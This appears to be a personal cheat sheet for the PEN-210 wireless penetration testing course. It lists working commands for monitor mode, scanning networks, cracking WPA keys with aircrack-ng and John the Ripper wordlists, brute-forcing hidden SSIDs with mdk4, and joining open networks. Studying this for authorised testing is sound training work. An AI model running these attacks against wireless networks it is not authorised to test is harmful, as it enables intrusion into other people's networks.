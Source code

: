 # PEN-210
=== put wifi card in monitor mode ===
airmon-ng check kill  # kill services
airmon-ng start wlan0  # monitor mode (wlan0 > wlan0mon)
# airmon-ng stop wlan0mon  # stops monitor mode (wlan0)

=== scan network ===
airodump-ng wlan0mon -w ./wifi/scan --manufacturer --wps --band abg
airodump-ng wlan0mon -w ./wifi/scan --manufacturer --wps -c11  # scan specified channel

=== cracking ESSID with JTR ===
john --wordlist=/usr/share/john/password.lst --rules --stdout | aircrack-ng -e <essid> -w - ./wifi/scans

=== find hidden APs (given ESSID) ===
tar -xvf /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt.tar.gz -C .  # grab rockyou from seclist
cat rockyou.txt | awk '{print "wifi-" $1}' > wifi-rockyou.txt  # modify rockyou.txt to include "wifi-" prefix
iwconfig wlan0mon channel 11  # change channel wlan0mon is running on (check the channel via airodump-ng)
mdk4 wlan0mon p -t <essid> -f wifi-rockyou.txt  # using mdk4 to bruteforce ssid

=== connecting to OPN network ===
# edit free.conf
network={
	ssid="$ESSID"
	key_mgmt=NONE
	scan_ssid=1
}

wpa_supplicant -Dnl80211 -iwlan2 -c free.conf
dhclient wlan2 -v

